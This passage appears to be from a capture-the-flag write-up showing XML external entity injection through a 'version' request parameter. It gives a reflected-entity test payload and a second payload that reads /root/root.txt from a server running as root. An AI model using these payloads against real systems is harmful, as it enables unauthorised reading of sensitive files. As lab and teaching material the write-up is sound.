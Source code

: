 We don't know the private key for this token but we can inject code.

Injecting xml ENTITY from `version` parameter and call it from `username`
```xml
username=&xxe;&version=1.0.0--><!DOCTYPE replace [ <!ENTITY xxe "xxe injection"> ]><!--
```

![](screenshots/xxe-injected.png)

And now if we send this cookie to request `/site`, xxe reflected on the page.

![](screenshots/reflected-xxe.png)

Now that xxe confirmed we can read file from system and this is running as root so we can read root file.
```xml
username=&xxe;&version=1.0.0--><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/root.txt"> ]><!--
```
